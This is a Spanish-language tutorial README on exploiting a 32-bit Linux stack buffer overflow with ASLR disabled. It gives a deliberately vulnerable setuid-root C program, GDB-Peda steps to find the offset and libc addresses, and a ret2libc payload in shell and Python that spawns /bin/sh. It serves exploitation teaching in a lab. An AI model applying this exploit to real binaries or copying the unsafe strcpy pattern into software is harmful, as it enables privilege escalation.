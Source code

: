**EXPLICACIÓN  DETALLADA EN** [Buffer Overflow 32 Bits Linux (sin ASLR)](https://hacknotes.github.io/buffer%20overflow/buff32linuxSinAslr/)

## Script
```bash
#include <stdio.h>
#include <string.h>

int vuln(char *str)
{
    char buf[64];
    strcpy(buf,str);
    printf("Cadena: %s\n",buf);
    return 0;
}
int main(int argc, char* argv[])
{
    vuln(argv[1]);
}
```

## Compilación

 ```bash
gcc -fno-stack-protector -m32 buff.c -o buff
```

## Permisos
 
```bash
 chown root:root buff
 chmod +s buff
```
## Desactivar el ASLR
```python
echo 0 > /proc/sys/kernel/randomize_va_space
```
 
 ## GDB-Peda

Vemos los registros de la memoria

**Comando:** 
 ```bash
 i r
 ```
 
Crea cadenas aleatorias

**Comando:**
 ```bash
 pattern arg 100
 ```
 
 Ejecuta el binario

**Comando:**
 ```bash
 r
 ```
 
Encuentra el tamaño del offset.

**Comando:**
 ```bash
 pattern search
 ```
 
 Muestra la dirección de system.

**Comando:**
 ```bash
 p system
 ```
 Muestra la dirección de exit.

**Comando:**
 ```bash
 p exit
 ```
 Muestra la dirección de /bin/sh.

**Comando:**
 ```bash
 find "/bin/sh" all
 ```
 
 ## Payload final
 ```bash
 payload = offset + system + exit + /bin/sh
 
 $(python -c 'print "A"*76 + "\x10\x33\xe5\xb7" + "\x60\x62\xe4\xb7" + "\x4c\x5d\xf7\xb7"')
```

## Script en python
```python
#/usr/bin/python2
#Johnny Chafla | @jch | @hacknotes
#site https://hacknotes.github.io/

from struct import pack

offset = 76

systemAdd = pack("<I", 0xb7e53310)
exitAdd = pack("<I", 0xb7e46260)
binshAdd = pack("<I", 0xb7f75d4c)

junk = "A"*76

payload = junk + systemAdd + exitAdd + binshAdd

print payload
```

**EXPLICACIÓN DETALLADA EN** [Buffer Overflow 32 Bits Linux (sin ASLR)](https://hacknotes.github.io/buffer%20overflow/buff32linuxSinAslr/)
